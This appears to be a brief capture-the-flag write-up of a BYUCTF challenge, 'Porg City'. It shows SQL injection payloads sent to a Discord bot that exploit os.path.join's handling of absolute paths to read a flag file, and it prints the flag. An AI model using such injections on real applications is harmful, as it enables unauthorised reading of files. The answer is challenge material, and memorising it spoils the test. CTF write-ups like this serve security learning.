

## misc/Porg City

`os.path.join` ignores previous segment if segment is absolute path.

So we can modify `porg.image` to any path.

I first tried `@Porg Bot porg %' union select 1,1,1,1,'/srv/flag.txt';/*` but there was no response.

`@Porg Bot porg %' union select 1,1,1,1,'/proc/self/cwd/flag.txt';/*` worked, but I couldn't see any image.

I dumped discord process and found file link for flag.txt

flag : `byuctf{hehehe_hASWHHyrc9_https://i.imgflip.com/8l27ka.jpg}`
